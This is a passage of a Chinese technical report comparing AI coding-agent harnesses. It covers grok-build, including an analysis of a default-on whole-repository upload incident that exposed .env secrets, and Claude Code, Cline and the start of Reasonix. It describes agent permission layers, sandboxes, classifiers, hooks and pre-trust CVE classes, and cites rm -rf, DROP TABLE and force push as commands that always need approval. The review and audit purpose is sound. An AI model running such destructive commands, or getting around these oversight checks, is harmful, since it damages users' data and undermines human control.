代码库为 60+ crate 的 Cargo workspace，主力是 xai-grok-pager（TUI，42 万行）、xai-grok-shell（agent 运行时，33.6 万行）、xai-grok-tools（11.2 万行）、xai-grok-workspace（权限/会话/git，7.8 万行）。与 Claude Code 的单体进程不同，grok-build 的运行时是显式的客户端-服务器拓扑：**leader 为长驻守护进程**（Unix socket + `LeaderLock` 单例、每小时自更新检查、孤儿上传队列清扫），TUI、headless 与编辑器集成都只是经 ACP（Agent Client Protocol，JSON-RPC over stdio/socket）连接 leader 的客户端——`agent/app.rs` 的 `run_stdio_agent` / `run_headless` / `run_leader` 三入口（:289/:409/:917）共用同一会话抽象，会话层代码整体以 `acp_session*` 命名。这意味着 ACP 在此不只是对外的编辑器协议，而是整个 harness 的内部总线，九对象中独此一家（Codex 官方硬拒 ACP，见第 7 章）。



轮内循环（`xai-grok-shell/src/session/acp_session_impl/turn.rs:1693 process_conversation_turn`）是三道闸结构：采样前检查 token 用量是否达窗口 85%（是则先压缩）；采样经 `run_turn_via_sampler`，失败返回 `CompactAndResubmit` 即压缩重投，401 按 1s/2s/4s 退避至多 3 次；工具执行受权限与 hooks 拦截（`PermissionReject` / `HookDenied` 分支）；工具执行后再查 preflight 溢出。配套的 **doom-loop 检测**是少见的服务端-客户端协同设计：服务端经 SSE 下发重复/死循环信号，客户端按置信度**中流中止**当前 attempt，重试预算耗尽后 disarm 放行末次尝试——把"判循环"放在能横向观察多会话的服务端，把"止损"留在本地。401 退避注释记录了一次真实事故（"a turn froze 16m40s and then 11.6 days"），说明该参数是被线上事故修正过的。

TUI 侧最常被称道的工程细节是 mermaid 双模渲染：`xai-grok-markdown/src/mermaid.rs` 以 5,237 行纯 Rust 把 graph/sequence/state 三类图直接画成 Unicode 盒绘字符（无 Node、无 headless 浏览器、无网络），滚屏中先画 Unicode，下方挂可点击 affordance 行，点击后才经 vendored mermaid-to-svg（dagre 布局）与 resvg 栅格化 PNG；且因模型输出不可信，栅格化在**短命子进程**中进行（panic/超时进程级隔离）。Willison 评价 "genuinely clever" 并将其移植至 WebAssembly 在浏览器运行。

### 8.3 六维拆解

| 维度 | grok-build 机制要点 | 关键源码坐标 |
|---|---|---|
| 感知 | 兼容发现 AGENTS.md / CLAUDE.md / `.claude/rules` / `.cursor/rules`；Cursor 规则按 glob 读后注入；`/import-claude` 一键迁移 Claude 权限与 MCP 配置 | `agents_md.rs`；`cursor_rules_on_read.rs`；`claude_import.rs` |
| 记忆 | 85% 阈值自动压缩 + 压缩前 memory flush + two-pass prefire（默认关）；300s 压缩墙钟预算；256K 窗口为模型属性而非硬编码 | `compaction.rs`；`client.rs:661`；`xai-grok-compaction/` |
| 执行 | 25+ 内置工具（`register_all()` 单入口）；三套编辑策略并存；源码移植 Codex/OpenCode 工具（MIT 合规） | `implementations/mod.rs`；`grok_build_hashline/` |
| 控制 | TaskTool 扇出 N 路子代理（代码无硬上限）+ `MAX_SUBAGENT_DEPTH=1`；可选 worktree 隔离（BTRFS 快照）；Monitor/Scheduler 长任务原语 | `task/mod.rs`；`xai-tool-types/task.rs:186`；`xai-fast-worktree/` |
| 安全 | 六档 PermissionMode 与 Claude Code 一一对应 + Auto 小模型分类器；OS 沙箱五档但默认 off；隐私事件见 8.3.4 | `config.rs:956`；`auto_mode.rs`；`xai-grok-sandbox/` |
| 扩展 | 插件 = 技能+agents+MCP+hooks 打包；marketplace 强制 40 位 SHA pin；hooks 四事件、仅 pre_tool_use 可阻塞、fail-open | `plugins/mod.rs`；`xai-grok-hooks/src/lib.rs` |
| （附）持久化 | JSONL 会话落盘 + FTS 检索 + fork/rewind/share；云端沙箱会话恢复（与上传管线同通道） | `storage/mod.rs:931`；`remote/` |
| （附）入口 | TUI / headless / ACP 三模式统一经 leader，同一代码路径 | `agent/app.rs:289/409/917` |

速览表里最值得注意的不是任何单项，而是两处"刻意"：其一，感知层与扩展层大量直接读取 Claude Code 生态的资产（设置、规则、hooks 格式、MCP 配置），把竞争对手用户的迁移成本压到接近零，兼容面为九对象最宽；其二，控制层与安全层的机制密度同样罕见（子代理扇出、六档权限、五档沙箱），但默认姿态宽松——沙箱默认 off、数据留存曾默认开。**机制最全与默认最松并存**，正是 8.3.4 事件能够在该 harness 上发生的结构性条件，也是它与其他五家默认姿态谱系（见 12.1）的偏离点。

#### 8.3.1 执行：25+ 工具、三套编辑策略、源码移植 Codex/OpenCode 工具（移植≠集成）

工具系统在 `xai-grok-tools/src/implementations/grok_build/mod.rs` 的 `register_all()` 单入口注册：文件读写、Bash（tree-sitter 解析命令做写路径检测）、Task 子代理族、Monitor/Scheduler 长任务原语、WebSearch/WebFetch、LSP，以及 xAI 特有的 Imagine 图像/视频生成四件套，合计 25+。编辑可靠性被当作可测量指标：三套编辑策略并存——主策略 **search_replace**（精确替换 + 归一化匹配 + 3 行上下文 diff）、特色策略 **hashline**（内容哈希锚定的行级编辑，`AnchorScheme` 三套候选 + 锚点漂移有界恢复 + 自带 `benchmark.rs` 评测线束）、以及 codex 命名空间下的 **apply_patch**。

同一 crate 内并存多套工具命名空间：自有集与精简变体之外，`codex/` 目录移植了 OpenAI Codex 的 `apply_patch` 等四个工具，`opencode/` 目录移植了 sst/opencode（MIT）的 `bash/edit/glob/grep/read` 等八个工具，mod.rs 注释明示 "ported from the sst/opencode project"，THIRD_PARTY_NOTICES 按 Apache §4(b) 声明修改。必须澄清的口径：这是**源码级移植，不是运行时集成**——grok-build 与 OpenCode 之间没有任何进程间协议或依赖关系，"OpenCode 集成"一说并不成立。多副本的动机，代码层面可见 `ToolBridge` + 模板变量使系统提示词随命名空间自适应；Willison 推测其用于按检测到的竞品配置切换工具方言——他本人标注不确定，本报告按 C 级处理。

#### 8.3.2 感知：公开读取 CLAUDE.md / .cursor 等他家配置 + /import-claude

规则文件发现模块（`xai-grok-agent/src/prompt/agents_md.rs`）的文档注释直白到罕见："AGENTS.md / Claude.md / rules directory discovery and loading"——从 cwd 向 repo root 逐级上溯，识别 AGENTS.md 与 CLAUDE.md，另扫描 `.grok/rules/`、`.claude/rules/`、`.cursor/rules/` 下的 `*.md` 按文件名排序注入，识别列表受 `CompatConfig` 门控。更进一层的是 `cursor_rules_on_read.rs`：解析 `.cursor/rules` 的 frontmatter（`alwaysApply`/`globs`/`description`），在读文件命中 glob 时把对应规则作为 reminder 注入，并以 `injected_rule_paths` 去重——把 Cursor"按需规则"的语义整个搬了过来。权限侧同样开放：`xai-grok-workspace` 直接读取 `.claude/settings.json` 的 `permissions.allow/deny/ask` 与 `defaultMode` 并使其生效；`/import-claude` 命令扫描 `.claude/settings*.json`、`~/.claude.json` 与 `.mcp.json`，弹交互式导入 modal，一键迁移 Claude Code 的权限与 MCP 服务器配置。把"读取竞品配置"做成一等公民，是 grok-build 在采用侧最清晰的战略动作；在配置互读已成行业惯例的 2026 年中（见第 13 章 10.1.3），它是兼容面最宽、也最不加掩饰的一家。

#### 8.3.3 记忆：85% 阈值自动压缩 + memory flush + two-pass prefire；256K 实证

上下文窗口经实证为 256K：`xai-grok-shell/src/remote/client.rs:661` 定义 `DEFAULT_CONTEXT_WINDOW = 256_000`，但它是模型元数据缺失时的回退值——实际窗口来自会话 SamplingConfig，即 **256K 是模型属性而非 harness 硬编码**。压缩策略（`xai-grok-agent/src/compaction.rs`）四个默认参数构成一套防卡顿组合：`auto_compact_threshold_percent: 85` 触发自动压缩；`memory_flush_enabled` 允许压缩前先跑一次记忆写入 turn 抢救关键信息；`wall_clock_budget_secs: 300` 设墙钟预算防 reasoning 跑飞；`two_pass_enabled`（默认关，远程设置/config/env 三路可开）启用 two-pass prefire——临近阈值时后台推测性总结历史前缀，真正压缩时只处理增量，消除卡顿。压缩引擎独立成 crate（`crates/common/xai-grok-compaction/`），提供 code/intra/inter 三种风格，尾部选择保证 tool call/result 不成对拆散。触发点与 agent loop 三道闸共用——记忆管理与主循环是同一控制流而非旁路系统，为九对象中耦合最深的实现（对照见 9.2）。

#### 8.3.4 隐私事件技术剖析：repo_changes_dedup、.env 未排除、trace_upload 默认开、/privacy 管保留不管传输

这是理解该 harness 不可绕过的一节，也是全书"信任工程"主线最关键的证据链。一手事实来自 cereblab 抓包报告（含二进制 SHA-256，可复现），代码侧证据来自开源树本身，两者逐字互证。

**上传内容**：cereblab 在 12GB 测试仓库上观测到模型轮次通道（`/v1/responses`）仅 ~192KB，而存储通道 `/v1/storage` 向 `gs://grok-code-session-traces/repo_changes_dedup/v2/` 上传 **5.10 GiB / 73 块**——约为任务实际所需的 27,800 倍；载荷是 git bundle，含全部受跟踪文件与完整提交历史（数月前已删除的 secrets 一并包含），空转指令（"reply OK, do not open any files"）照样上传，`.env` 金丝雀明文出现在两条通道。开源代码与之逐字吻合：`xai-file-utils/src/upload_config.rs:120` 的 `DEDUP_GCS_PREFIX` 常量正是 `"repo_changes_dedup"`（schema 版本 `"v2"`）；`session/repo_changes/` 模块职责即"序列化本地提交 + worktree/index 变更"；排除清单 `SKIP_DIR_NAMES` 只把 `.env` 当**目录名**跳过，`.env` 文件不在 `SKIP_FILE_PATTERNS`——与抓包结论互相印证。

**开关为何无效**：`agent/config.rs:2082 resolve_trace_upload()` 的优先级链为 env 变量 > requirements.toml pin > config.toml > 服务端远程 feature flag > 默认值（遥测开则上传开）——**默认即开启，且最终决定权在服务端**，客户端 UI 的 "Improve the model" 开关不在链路中；官方事后承认 "In the early beta, data retention was enabled by default for non-ZDR users"。修复方式暴露的结构性风险更需写明：07-13 的止血纯靠服务端 flag，上传代码仍在开源树中——`upload/trace.rs:148` 的 `upload_session_state` 返回硬编码不可用、`upload_harness_session_archive` 直接返回 false，但 GCS 客户端完整保留；Hive Security 评价其为 "a mitigation that matters, but not a durable client-side security boundary"，即服务端可随时为任意用户重新打开而无需软件更新。`/privacy` 命令同样名实分离：cereblab 的 A/B 抓包显示 opt-in 与 opt-out 发出的请求完全相同，唯一差别是 `/v1/traces` 返回码 200→204——**/privacy 管的是数据保留（retention），不是传输（transmission）**。发布期 "nothing from your codebase transmitted""local-first" 的营销表述被直接证伪；开源后官方改口为 "local-first **with your own inference**"——只有自编译并自托管推理（config.toml 改 `xai_api_base_url` 指向内部端点，代码已验证存在）才成立，默认路径仍是标准云端 agent。

#### 8.3.5 扩展：插件 / subagent（"8 路并行"证伪）+ worktree + /best-of-n

插件系统把技能、agents、MCP 配置与 hooks 打包为命名空间单元（`~/.grok/plugins/`、项目级 `.grok/plugins/`），配套 marketplace 以单一 catalog 文件管理，remote 源强制 40 位 commit SHA pin、安装后 `rev-parse` 复核——防 vendor force-push 的供应链设计在九对象中最严。hooks 四事件中仅 pre_tool_use 可阻塞，默认 fail-open，格式明示兼容 Claude hooks。

子代理的真相需要与传播叙事切开：`TaskTool` 提供扇出接口（本地 in-process channel，可换远程后端），内置 general-purpose / explore / plan 三类型；`MAX_SUBAGENT_DEPTH = 1`（子代理不可再生子代理）管的是嵌套深度，代码中**不存在任何并发扇出的数字上限**。媒体广泛传播的 "up to 8 parallel subagents" 源自 2026 年 2 月泄露 UI 的 2 模型 × 4 实例布局，经核实其为泄露/媒体数字而非代码事实；并行扇出真实存在，worktree 隔离才是一等特性。worktree 基础设施（`xai-fast-worktree/`，1.9 万行）的工程密度确实罕见：`git worktree add --no-checkout` 秒建元数据、hash 分片并行 CoW 文件克隆、Linux 上 BTRFS 快照 O(1) 克隆、worktree 池预热与 GC。媒体描述的 Arena Mode（自动评分排名）**从未发布**；其落地近似物是 `/best-of-n` 技能——N 路子代理在隔离 worktree 中并行实现、评估候选、应用胜者（N=2–10，默认 3，headless 有 `--best-of-n` 开关）。"announced, not shipped" 与"锦标赛式 best-of-N 已以技能形式可用"两者都属实，混为一谈则不属实。

### 8.4 风险清单

#### 8.4.1 14 项争议与未证实参数

下表汇总围绕 grok-build 的 14 项争议、已证伪宣称与未证实参数（as-of 2026-07-17）。凡媒体反复传播但未获一手证实的数字一律在此列示，正文不作事实引用。

| # | 事项 | 状态（as-of 2026-07-17） | 证据分级 |
|---|---|---|---|
| 1 | 全仓库上传事件：默认开启、开关无效、git bundle 含历史 secrets、`.env` 明文 | 已止血（服务端 flag）；上传代码在树但被硬禁用；无删除审计 / 受影响规模 / 正式事件报告 | 一手证实（cereblab + 代码印证） |
| 2 | 服务端运行时配置层：`trace_upload_enabled` 等远程 flag 可不下发更新即改变客户端行为 | 结构性风险，开源未消除（"开源的代码 ≠ 运行的行为"） | 一手（代码 + techtimes 分析） |
| 3 | `/privacy` 管保留不管传输：opt-in/out 抓包请求相同，仅 `/v1/traces` 200→204 | 已证实 | 一手（cereblab A/B） |
| 4 | SWE-bench Verified 70.8% 张冠李戴：属已弃用 grok-code-fast-1，grok-build-0.1 从未公布官方分数 | 媒体误导性引用高发；别名关系（grok-build-0.1 aliases 含 grok-code-fast-1）为混淆根源 | 多源核查裁定（B） |
| 5 | "8 路并行 subagent"：代码无硬上限；源自 2026-02 泄露 UI（2 模型 × 4 实例） | 证伪为泄露/媒体数字；并行扇出与 worktree 隔离本身属实 | 代码核查裁定 |
| 6 | Arena Mode：自动评分排名未发布；落地近似物为 `/best-of-n` 技能（N=2–10） | announced, not shipped | 代码核查 + 多源 |
| 7 | "local-first / 代码不离开机器"营销 | 发布期被证伪；开源后仅在自编译 + 自托管推理下成立 | 一手 + rywalker |
| 8 | 发布时间/安装方式混乱：个别媒体称 6 月 5 日发布、npm 安装、Grok 4.3 驱动 | 与官方 curl 安装 / 5-14 beta / grok-build-0.1 矛盾；npm 包 `@xai-official/grok` 实为 ACP 包装器 | 低可信媒体噪音（C） |
| 9 | 单 commit 发布、无历史、不收 PR、不开 issues | 持续状态：可审计不可共治；monorepo 同步存在时滞 | 一手（CONTRIBUTING / API） |
| 10 | 上传队列本地堆积：`~/.grok/upload_queue` 持久化队列，高负载可达数十 GB | 已记录（代码注释 "the queue can hold up to several GB"） | 代码 + qwe.edu.pl（B） |
| 11 | 子代理提示词防泄漏、主提示词不设防的不对称 | 已确认（开源后实际失效，但反映设计习惯） | 代码 + Willison |
| 12 | CLI 未做证书固定（0.2.93 可被 mitmproxy 明文审计） | 已记录：利于审计，也说明传输层信任假设弱 | cereblab |
| 13 | 免费档（Grok 4.5 免费用）无公布截止日 | 观察中，"probably temporary" | daily.dev（B） |
| 14 | 遥测面大：`upload/trace.rs` 上传面含工具定义/权限事件/记忆状态/插件状态/完整 prompt；`xai-mixpanel` 存在 | 已确认（当前默认关） | 代码 |

十四项的分布呈现清晰的层次：#1–#3 是一手证实的信任事件本体，#4–#8 是媒体沉积数字的证伪区（其中 #4、#5 已获正式核实），#9–#14 是开源后仍可观察的结构性事实。对选型者最有行动价值的是 #2 与 #14：它们说明"代码开源"与"运行时行为可控"之间仍隔着服务端远程配置这一层——审计 grok-build 的正确姿势不是读完源码为止，而是加用 `requirements.toml` 把遥测与上传项 pin 死（企业管理接口恰为此存在），或干脆走完全自托管推理路径。对研究者的提醒则是 #4：任何把 70.8% 记在 grok-build 名下的二手引用，都应视为别名混淆的高发样本处理。

---

## 9. Claude Code：闭源外壳里的最纵深防御

### 9.1 基本面：唯一闭源的对照组

Claude Code 是 Anthropic 直属的旗舰 coding agent，2025 年 2 月发布，采用专有许可——它是本报告九对象中唯一 harness 本体闭源的商业产品，也是事实上的行业设计标杆：今天几乎所有开源 harness 的话语体系（plan 模式、subagent、hooks、skills、CLAUDE.md/AGENTS.md 层级记忆）都能追溯到它的工程实践外溢。其商业模式为订阅制（Pro $20/月、Max $100–200/月）叠加 API 按量，harness 与模型同厂捆绑，不开放第三方模型接入。

表面矩阵是九对象中最宽的之一：Terminal CLI（interactive 与 headless `-p`）、IDE 扩展（VS Code、JetBrains）、SDK（TypeScript/Python）、Web、Desktop、Slack 与 GitHub `@claude` 集成。表面上它是"产品"，但从 harness 视角看，它是一个渲染层可替换的单引擎系统。

### 9.2 架构：queryLoop 单循环与七层安全

Claude Code 的核心是一个 `queryLoop()` async generator：跑模型 → 解析 tool-use 块 → 查权限 → 分发工具 → 收集 tool_result → 再入循环，直至模型不再产生工具调用。交互式 CLI、headless CLI、SDK 与 IDE 集成共享同一个循环，只有渲染层不同——与 Codex 的"codex-core 单内核多表面"（第 7 章）完全同构，再次印证"单一引擎多表面"是 2026 年生产 harness 的共识终态。



安全层是它的最深护城河：每次工具调用须依次通过多层独立裁决——工具预过滤、deny-first 规则、ML 分类器、shell 沙箱等七层全部满足才执行。deny-first 的设计动机是一组行为数据：实测用户会批准约 93% 的权限提示——当人类审批在行为上不可靠，安全就不能建立在人的警觉之上。已知弱点同样值得记录：含 50+ 子命令的 shell 命令因 UI 冻结风险回退为通用提示（安全层共享性能约束时会一起降级）；两个 CVE 类别利用扩展机制（hooks/MCP 配置）先于信任对话框加载的 pre-trust 窗口。

### 9.3 六维能力拆解

**循环（Loop）**：queryLoop 单循环之上叠加 TodoWrite 任务追踪与 Agent Teams——多实例并行、共享任务列表、以 git worktree 隔离工作区，是九对象中最成熟的多代理协调形态之一（对照 grok-build 的 worktree 隔离并行子代理与 Codex 的 subagent 线程模型）。

**上下文（Context）**：五层 compaction pipeline 在每次模型调用前按序运行、逐级激进（从截断旧工具结果到全量摘要），auto-compact 约在上下文使用 50% 时触发，另有 `/compact` 支持用户定向压缩（指定保留什么）。与 Pi 的 LLM 摘要压缩、grok-build 的 two-pass prefire 相比，它的特征是"管道化"——压缩不是单一开关，而是一组按压力逐级启用的策略。

**工具（Tools）**：内置文件/bash/web 工具族，扩展四机制各有不同的上下文成本：MCP（stdio/SSE/HTTP）持久占上下文；plugins 打包分发；skills 以 SKILL.md 按需加载（低成本）；hooks 不占模型上下文（确定性脚本）。10+ 生命周期 hook 事件（PreToolUse 可以 exit code 2 阻断、PostToolUse、Stop、SubagentStop、UserPromptSubmit、PreCompact、SessionStart/End 等），并支持 `hookSpecificOutput.additionalContext` 向下一轮注入内容——这是"扩展机制影响循环"的最细粒度接口。

**权限（Permission）**：default / acceptEdits / plan / bypassPermissions 四模式叠加 allow/ask/deny 规则，再叠加 deny-first 七层纵深。安全姿态坐标 **8.5/10**——九对象最右端；扣分项是 pre-trust 窗口 CVE 与闭源不可审计。

**会话与持久化（Persistence）**：session 恢复、CLAUDE.md 三级层级记忆（项目/用户/管理，且不读 AGENTS.md）、subagent 以独立上下文窗口运行、只把摘要回传主循环——"隔离上下文换主循环清净"的标准范式。

**可观测性（Observability）**：hooks 事件流可外接任意脚本做审计与遥测；headless 模式输出结构化结果供 CI 消费。闭源决定了其可观测性上限是"官方给的钩子"，而非源码。

### 9.4 长短板与定位

最长板：纵深防御的工程化（七层独立裁决 + deny-first + 行为数据驱动的默认姿态）与扩展生态的成熟度（skills/hooks/subagents/MCP 四机制的上下文成本分层设计，是第 14 章借鉴清单的重要来源）。短板：闭源不可审计（九对象中唯一）、pre-trust 窗口的已知 CVE、订阅成本与模型锁定。定位：安全坐标最右端（8.5）与生态成熟度第一梯队，适合把"默认即安全"置于成本与透明之上的团队。

## 10. Cline：审批密度最高的 IDE 原生 agent

### 10.1 基本面：透明作为获客叙事

Cline（`cline/cline`）是 VS Code 原生 agent，2024 年 7 月发布，Apache-2.0 全开源，2026-07-20 录得 64,800+ stars、6,900+ forks，VS Code Marketplace 5M+ 安装——IDE 扩展形态中的规模第一梯队。运营主体 Cline Bot Inc. 以"开源公司化"方式运作：扩展免费、BYOK 无门槛，变现靠 Cline Provider 按量计费与 Team 席位（$20/seat/月，10 席内免费）。2026 年 2 月发布 CLI 2.0，把头less 执行与 CI/CD 并行纳入同一内核。它不设订阅、不锁模型（30+ provider 任意切换），"全链路透明"本身就是它的核心获客叙事。

### 10.2 架构：Plan⇄Act 双模与 shadow git

Cline 跑在扩展宿主进程内：webview 承载 UI，扩展宿主执行文件与命令操作，旁挂一个 shadow git 仓库为每次工具调用做快照。其签名设计是 **Plan⇄Act 双模**：Plan 模式只读（锁定文件修改与命令执行），用于勘察与对齐方案；Act 模式才放开写权限。两个模式可挂不同模型——便宜模型做规划、强模型做执行，把"思考/动手"的成本结构显式拆开。官方文档直言"跳过 Plan 直接 Act 是最常见的使用错误"——双模不是装饰，而是被文档强制的纪律。



Checkpoints 是第二签名设计：shadow git 在每次工具调用后提交快照，提供三级回滚——只恢复文件、只恢复任务对话、或完全重置。它明确不承诺回滚外部副作用（已发出的请求、已写的远端状态），把"可回滚性"的边界划在仓库内。

### 10.3 六维能力拆解

**循环（Loop）**：任务式 implement-test-fix 循环；v3.58 起引入 subagents（隔离上下文执行子任务），并有 coordinator agents 与 cron 调度的多代理形态——但多代理编排的成熟度仍弱于 Claude Code 的 Agent Teams 与 Codex 的 subagent 线程模型。

**上下文（Context）**：显式注入路线——`@url`/`@file`/`@folder`/`@problems` 把外部内容拉进上下文，配合 AST 级代码搜索；记忆靠 `.clinerules` 规则文件与 Memory Bank 人工维护，没有公开的自动 compaction 机制——大任务下 token 消耗偏高是其被反复报告的使用成本。

**工具（Tools）**：文件读写、bash、AST 搜索、浏览器自动化（Computer Use，headless Chromium）四族，外加 MCP Marketplace——150+ 服务器一键安装，是 MCP 生态分发的最早形态之一（对照 grok-build 的 commit-SHA-pin 插件市场）。

**权限（Permission）**：审批密度九对象之最——细粒度 auto-approve 分类（read/write/execute/browser/MCP 各自独立开关），`requires_approval` 命令分类把 rm -rf、DROP TABLE、force push 等列为永远需要批准；YOLO 模式存在但被官方文档明确警告为 dangerous。没有任何执行隔离沙箱——安全完全建立在"人看每一步"之上。安全姿态坐标 **6.0/10**：审批密度最高、隔离能力最弱。

**会话与持久化（Persistence）**：shadow git checkpoints 提供消息级可恢复性，是九对象中回滚粒度最细的持久化设计；任务历史持久保存可续作。

**可观测性（Observability）**：diff 预览 + 逐步审批流本身就是可视化审计；OS 级通知（审批请求、长命令 30 秒提醒）补齐了 IDE 内 agent 的人因闭环。

### 10.4 长短板与定位

最长板：透明（Apache-2.0 全链路可审计）与审批粒度（每个动作类别独立开关）、30+ provider 零锁定、5M+ 安装验证的 IDE 原生体验。短板：无沙箱隔离（审批依赖人的警觉，与 Claude Code 的 93% 批准率数据形成互证）、大库 token 消耗高、中断写入曾出现文件截断问题（checkpoints 可缓解）。定位：IDE 原生、强人在环场景的基准答案——当你要的是"每一步都看得见、批得动"，Cline 是九对象中纪律最强的一个。

## 11. Reasonix：为 prefix-cache 而生的成本工程样本

### 11.1 基本面：DeepSeek 原生的挑战者

Reasonix（`esengine/DeepSeek-Reasonix`）是 2026 年 5 月发布的终端 coding agent，发布当日登顶 Hacker News，2026-07 录得 11,000+ stars，MIT 许可。1.0 版以 Go 重写为单一静态二进制（CGO_ENABLED=0，npm/Homebrew 六平台分发；0.x 为 TypeScript legacy）。它默认对接 DeepSeek（也支持任何 OpenAI 兼容端点与 MiMo 预设），由个人开发者 esengine 主导——九对象中组织形态最轻、但工程论点最锋利的一个：它把 harness 的核心约束从"能力"重新定义为"成本"。

### 11.2 架构：append-only 缓存不变量

